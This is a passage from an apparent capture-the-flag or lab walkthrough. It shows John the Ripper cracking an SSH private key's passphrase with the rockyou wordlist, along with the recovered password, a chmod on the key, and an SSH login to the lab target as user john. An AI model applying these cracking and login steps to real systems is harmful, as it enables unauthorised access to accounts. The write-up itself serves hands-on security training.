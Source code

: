 </code></pre><p>To crack the hash run the following command</p>
<pre><code>john <span class="hljs-comment">--wordlist=rockyou.txt id_rsa.hash                  </span>
Using <span class="hljs-keyword">default</span> input encoding: UTF-<span class="hljs-number">8</span>
Loaded <span class="hljs-number">1</span> password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH <span class="hljs-number">32</span>/<span class="hljs-number">64</span>])
Cost <span class="hljs-number">1</span> (KDF/cipher [<span class="hljs-number">0</span>=MD5/AES <span class="hljs-number">1</span>=MD5/<span class="hljs-number">3</span>DES <span class="hljs-number">2</span>=Bcrypt/AES]) <span class="hljs-keyword">is</span> <span class="hljs-number">0</span> <span class="hljs-keyword">for</span> <span class="hljs-keyword">all</span> loaded hashes
Cost <span class="hljs-number">2</span> (iteration count) <span class="hljs-keyword">is</span> <span class="hljs-number">1</span> <span class="hljs-keyword">for</span> <span class="hljs-keyword">all</span> loaded hashes
Will run <span class="hljs-number">2</span> OpenMP threads
Press <span class="hljs-symbol">'q</span>' <span class="hljs-keyword">or</span> Ctrl-C <span class="hljs-keyword">to</span> abort, almost any other key <span class="hljs-keyword">for</span> status

rockinroll       (id_rsa)     

<span class="hljs-number">1</span>g <span class="hljs-number">0</span>:<span class="hljs-number">00</span>:<span class="hljs-number">00</span>:<span class="hljs-number">00</span> DONE (<span class="hljs-number">2024</span>-<span class="hljs-number">01</span>-<span class="hljs-number">28</span> <span class="hljs-number">19</span>:<span class="hljs-number">10</span>) <span class="hljs-number">1.204</span>g/s <span class="hljs-number">87479</span>p/s <span class="hljs-number">87479</span>c/s <span class="hljs-number">87479</span>C/s rubicon..rock14
<span class="hljs-keyword">Use</span> the <span class="hljs-string">"--show"</span> option <span class="hljs-keyword">to</span> display <span class="hljs-keyword">all</span> <span class="hljs-keyword">of</span> the cracked passwords reliably
Session completed.
</code></pre><p>Change the permissions of the private key with the following command</p>
<pre><code>chmod <span class="hljs-number">600</span> id_rsa
</code></pre><p><strong>SSH (Port 22)</strong></p>
<p>Login to the target machine</p>
<pre><code>ssh -i id_rsa john@<span class="hljs-number">10.10</span>.<span class="hljs-number">58.60</span>
The authenticity <span class="hljs-keyword">of</span> host '<span class="hljs-number">10.10</span>.<span class="hljs-number">58.60</span> (<span class="hljs-number">10.10</span>.<span class="hljs-number">58.60</span>)' can<span class="hljs-symbol">'t</span> be established.
ED25519 key fingerprint <span class="hljs-keyword">is</span> SHA256:kuN3XXc+oPQAtiO0Gaw6lCV2oGx+hdAnqsj/<span class="hljs-number">7</span>yfrGnM.
This key <span class="hljs-keyword">is</span> <span class="hljs-keyword">not</span> known by any other names.
Are you sure you want <span class="hljs-keyword">to</span> continue connecting (yes/no/[fingerprint])? yes
<span class="hljs-literal">Warning</span>: Permanently added '<span class="hljs-number">10.10</span>.<span class="hljs-number">58.60</span>' (ED25519) <span class="hljs-keyword">to</span> the list <span class="hljs-keyword">of</span> known hosts.
Enter passphrase <span class="hljs-keyword">for</span> key <span class="hljs-symbol">'id_rsa</span>': 
Welcome <span class="hljs-keyword">to</span> Ubuntu <span class="hljs-number">18.04</span>.<span class="hljs-number">4</span> LTS (GNU/Linux <span class="hljs-number">4.15</span>.<span class="hljs-number">0</span>-<span class="hljs-number">118</span>-<span class="hljs-keyword">generic</span> x86_64)

